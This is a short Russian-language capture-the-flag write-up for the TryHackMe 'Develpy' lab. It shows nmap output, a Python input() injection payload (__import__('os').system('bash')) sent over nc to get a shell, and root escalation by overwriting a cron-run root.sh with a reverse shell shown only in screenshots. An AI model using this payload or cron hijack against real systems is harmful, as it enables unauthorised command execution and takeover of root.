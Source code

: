 # Develpy

:white_check_mark:  [**Nc connection**](#nc)

:white_check_mark: [**Python input()**](#python)

:white_check_mark: [**Crontab file rewrite**](#crontab)
___

## Enumeration
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```

<a name="nc"><h2>Getting shell</h2></a>

<a name="python"></a>

Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python, и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```
<a name="crontab"><h2>Privilege escalation</h2></a>

Посмотрим, что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)
